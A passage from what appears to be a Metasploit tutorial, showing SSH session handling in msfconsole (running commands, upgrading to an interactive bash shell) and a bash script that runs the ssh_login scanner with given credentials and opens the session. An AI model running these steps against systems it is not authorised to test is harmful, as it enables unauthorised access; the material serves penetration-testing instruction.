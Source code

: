 ## Session Management

### Working with SSH Sessions

```bash
# List active sessions
msf6 > sessions

# Interact with session
msf6 > sessions 1
[*] Starting interaction with 1...

# Execute commands in session
whoami
sysadmin

pwd
/home/sysadmin

ls -la

# Upgrade to better shell
/bin/bash -i

# Background session
Ctrl+Z
[*] Background session 1

# Return to session
msf6 > sessions -i 1
```

### Automated Session Handler Script

```bash
#!/bin/bash

TARGET=$1
USER=$2
PASS=$3

echo "[*] Attempting SSH connection to $TARGET"

msfconsole -q -x "
workspace -a ssh_manual;
use auxiliary/scanner/ssh/ssh_login;
set RHOSTS $TARGET;
set USERNAME $USER;
set PASSWORD $PASS;
set STOP_ON_SUCCESS true;
run;

# If successful, interact with session
sessions -l;
sessions -i 1;
"
```
